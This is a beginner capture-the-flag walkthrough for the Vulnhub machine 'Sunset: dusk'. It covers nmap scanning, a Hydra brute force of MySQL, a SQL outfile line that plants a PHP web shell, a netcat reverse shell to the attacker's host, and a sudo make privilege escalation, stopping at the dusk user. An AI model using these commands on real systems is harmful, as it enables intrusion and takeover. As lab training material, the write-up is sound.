 # Sunset:dusk ~Vulnhub Walkthrough
Sunset: dusk is another CTF challenge given by vulnhub and the level difficulty is set according to beginners and credit goes to whitecr0wz.



## Scanning

nmap -p- target ip (full port scan)

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled.png)

nmap -sV -A 192.168.122.150 (Service version scanning)

```jsx
root@kali:~# nmap -sV -A 192.168.122.150
Starting Nmap 7.80SVN ( https://nmap.org ) at 2020-08-10 13:10 EDT
Nmap scan report for 192.168.122.155
Host is up (0.00094s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     pyftpdlib 1.5.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.122.155:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 b5:ff:69:2a:03:fd:6d:04:ed:2a:06:aa:bf:b2:6a:7c (RSA)
|   256 0b:6f:20:d6:7c:6c:84:be:d8:40:61:69:a2:c6:e8:8a (ECDSA)
|_  256 85:ff:47:d9:92:50:cb:f7:44:6c:b4:f4:5c:e9:1c:ed (ED25519)
25/tcp   open  smtp    Postfix smtpd
|_smtp-commands: dusk.dusk, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
| ssl-cert: Subject: commonName=dusk.dusk
| Subject Alternative Name: DNS:dusk.dusk
| Not valid before: 2019-11-27T21:09:14
|_Not valid after:  2029-11-24T21:09:14
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
3306/tcp open  mysql   MySQL 5.5.5-10.3.18-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.18-MariaDB-0+deb10u1
|   Thread ID: 38
|   Capabilities flags: 63486
|   Some Capabilities: SupportsTransactions, SupportsLoadDataLocal, FoundRows, Support41Auth, Speaks41ProtocolOld, ConnectWithDatabase, Speaks41ProtocolNew, ODBCClient, InteractiveClient, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, SupportsCompression, DontAllowDatabaseTableColumn, LongColumnFlag, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: j!]4,{MN|I8xwk5ct<o9
|_  Auth Plugin Name: mysql_native_password
8080/tcp open  http    PHP cli server 5.5 or later (PHP 7.3.11-1)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 00:0C:29:3D:E7:3F (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host:  dusk.dusk; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.94 ms 192.168.122.155

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.57 seconds
root@kali:~#
```

## Enumeration

Open ip in browser

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%201.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%201.png)

[http://192.168.122.150:8080](http://192.168.122.150:8080) 

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%202.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%202.png)

Trying to login through ssh, ftp and smtp port.

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%203.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%203.png)

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%204.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%204.png)

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%205.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%205.png)

Using hydra to bruteforce password of mysql 

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%206.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%206.png)

Found password **password**

**mysql -h 192.168.122.150 -u root -p**

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%207.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%207.png)

## Exploitation

Injecting RCE payload 

select "<?php echo system($_GET['cmd']); ?" into outfile "/var/tmp/backdoor.php";

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%208.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%208.png)

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%209.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%209.png)

### Reverse shell

[http://192.168.122.150:8080/backdoor.php?cmd=](http://192.168.122.150:8080/backdoor.php?cmd=)nc -e /bin/bash 192.168.122.148 1234

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2010.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2010.png)

Side by side start nc listener on 1234 port

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2011.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2011.png)

***Got shell of www-data

cd /home 

cd /dusk 

ls -al

cat user.txt

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2012.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2012.png)

sudo -l 

user www-data can run /usr/bin/make with privilege of dusk

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2013.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2013.png)

### Privilege escalation (dusk)

COMMAND='/bin/sh' 

sudo -u dusk make -s --eval=$'x:\n\t-'"$COMMAND"

id

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2014.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2014.png)

***Got shell of dusk user
